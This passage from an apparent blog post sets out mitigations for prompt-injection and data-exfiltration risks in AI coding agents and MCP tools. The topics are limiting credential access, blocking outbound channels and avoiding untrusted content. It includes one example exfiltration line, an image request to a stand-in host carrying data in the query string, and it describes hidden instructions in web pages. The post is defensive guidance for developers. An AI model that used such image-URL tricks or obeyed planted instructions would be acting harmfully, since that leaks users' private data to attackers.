 What seemed like a simple query becomes a vector for an attack.

## Mitigations

So how do we lower our risk, without giving up on the power of AI tools? First, if you can eliminate one of these three factors, the risks are much lower.

### Avoiding access to private data

Totally avoiding this is almost impossible - our tools run on developer machines, they will have some access to things like our source code.

But we can **reduce** the threat by limiting the content that is available.

- **Never store Production credentials in a file** - LLMs can easily be convinced to read files
- **Avoid Dev credentials in files** - you can use environment variables and [1Password command-line tooling](https://developer.1password.com/docs/cli/secret-references) to ensure credentials are only in memory not in files.
- **Use temporary privilege escalation to access production data**
- **Limit access tokens to just enough privileges** - read-only tokens are a much smaller risk than a token with write access
- **Avoid MCP servers that can read private data** - you really don't need something that can read your email. (or see "split the tasks" below)
- **Beware of browser automation** - some tools like Playwright are OK as they run a browser in a sandbox, with no cookies or credentials. But some are _not_ - there are tools out there to attach an MCP server to a running browser with access to all your cookies, sessions, and history. _This is not a good idea_.

### Blocking the ability to externally communicate

This sounds easy, right? Just restrict those agents that can send emails or chat.
But this has a few problems:

- Lots of MCP tools have ways to do things that can end up in the public eye. "Reply to a comment on an issue" seems safe until we realise that issue conversations might be public. Similarly "raise an issue on a public github repo" or "create a Google Drive document (and then make it public)"
- Web access is a big one. If you can control a browser, you can post information to a public site. But it gets worse - if you _open an image_ with a carefully crafted URL, you might send data to an attacker. `GET https://foobar.net/foo.png?var=[data]` looks like an image request but that data can be logged by the foobar.net server.

There are so many of these attacks, [Simon Willison has an entire category of his site dedicated to exfiltration attacks](https://simonwillison.net/tags/exfiltration-attacks/)

Vendors like Anthropic are working hard to lock these down, but it's pretty much whack-a-mole.

### Limiting access to untrusted content

This is probably the simplest category for most people to change
{: .notice--info}

**Avoid reading content that can be written by the general public** - don't read public issue trackers, don't read arbitrary web pages, don't let an LLM read your email!

Obviously _some_ content is unavoidable - you can ask an LLM to summarise a web page, and you are _probably_ safe from that web page having hidden instructions in the text. Probably. But for most of us it's pretty easy to limit what we need to "Please search on docs.microsoft.com" and avoid "Please read comments on Reddit".
